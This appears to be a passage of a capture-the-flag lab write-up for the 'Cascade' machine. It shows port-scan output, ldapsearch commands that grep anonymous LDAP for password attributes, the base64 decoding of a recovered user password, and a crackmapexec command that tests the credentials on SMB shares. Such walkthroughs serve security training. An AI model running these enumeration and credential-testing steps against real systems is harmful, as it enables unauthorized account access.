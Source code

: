 ---OUTPUT-UDP---
PORT     STATE         SERVICE      REASON
53/udp   open          domain       udp-response ttl 127
123/udp  open          ntp          udp-response ttl 127
```
----
## SMB Enumeration
- Initial enumeration gives nothing with null, guest and anonymous
## RPC Enumeration
- Initial enumeration gives nothing with null, guest and anonymous
## LDAPsearch
- checked anonymous authentication with ldap:
	```bash
ldapsearch -x -H ldap://10.10.10.182 -s base namingcontexts 
```
- Checking for bad passwords:
	```bash
ldapsearch -x -H ldap://10.10.10.182 -b "DC=cascade,DC=local" | grep -i "pwd"
ldapsearch -x -H ldap://10.10.10.182 -b "DC=cascade,DC=local" | grep -i "pwd" -A10 -B10

---RELEVANT-OUTPUT-1---
cascadeLegacyPwd: clk0bjVldmE=

---RELEVANT-OUTPUT-2---
sAMAccountType: 805306368
userPrincipalName: r.thompson@cascade.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=cascade,DC=local
dSCorePropagationData: 20200126183918.0Z
dSCorePropagationData: 20200119174753.0Z
dSCorePropagationData: 20200119174719.0Z
dSCorePropagationData: 20200119174508.0Z
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 132294360317419816
msDS-SupportedEncryptionTypes: 0
cascadeLegacyPwd: clk0bjVldmE=

# {4026EDF8-DBDA-4AED-8266-5A04B80D9327}, Policies, System, cascade.local
dn: CN={4026EDF8-DBDA-4AED-8266-5A04B80D9327},CN=Policies,CN=System,DC=cascade
 ,DC=local

# {D67C2AD5-44C7-4468-BA4C-199E75B2F295}, Policies, System, cascade.local
dn: CN={D67C2AD5-44C7-4468-BA4C-199E75B2F295},CN=Policies,CN=System,DC=cascade
 ,DC=local

# Util, Services, Users, UK, cascade.local

```
	- We get credentials of r.thompson user  `clk0bjVldmE=`
		- We try check with crackmap exec but it fails
			- Maybe it is encoded
- It looks like base64 so we try to decode it :
	```bash
echo clk0bjVldmE= | base64 -d

---OUTPUT---
rY4n5eva
```
- We check smb with these credentials and find some shares we can access:
	```bash
crackmapexec smb 10.10.10.182 -u 'r.thompson' -p 'rY4n5eva' --shares
